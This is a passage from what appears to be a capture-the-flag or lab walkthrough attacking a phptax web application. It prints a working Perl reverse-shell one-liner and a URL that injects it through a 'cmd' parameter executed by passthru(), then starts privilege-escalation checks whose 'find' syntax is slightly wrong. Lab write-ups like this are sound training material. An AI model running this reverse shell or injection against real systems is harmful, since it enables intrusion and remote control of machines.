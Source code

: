 `-n`: No DNS lookup  
`-v`: Verbose  
`-l`: Listen for inbound connect  
`-p`: Port Number

![[reverse-shell-1.png|240]]

For creating reverse shells I recommend using "Reverse Shell Generator".

[Reverse Shell Generator - Online](https://www.revshells.com/)

I tried many of the reverse shells that were listed on the site but none of them worked. In the end, I got the "`Perl no sh`" shell to work. 

In a reverse shell, the target initiates the connection with the client so, in the code the IP address of the attack machine has to be used. 

![[reverse-shell-2.png|600]]

For the reverse shell to work, I had to URL encode it. This step can be done easily using `CyberChef`. 

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.2:9000");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![[reverse-shell-3.png|640]]

```
http://10.6.6.15:8080/phptax/data/rce.php?cmd=perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.2:9000");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

The encoded string is used as the value for the parameter `cmd`. This parameter is executed by the `passthru()` function.

![[reverse-shell-4.png|640]]

If the reverse shell is configured properly a connection with the target machine will be established.

### Privilege Escalation

Once I had access to the system I started searching for misconfigured services.

I checked for processes that are running as `root` and found none.

```bash
ps aux | grep root
```

![[escalation-1.png|460]]

Using the `find` command I looked for executables that have SUID or GUID bit set. I did not find any such executable.

```bash
# Files with SUID set  
find . /perm 4000

# Files with GUID set
find . /perm 2000

# Files with both SUID and GUID set
find . /perm 6000
```
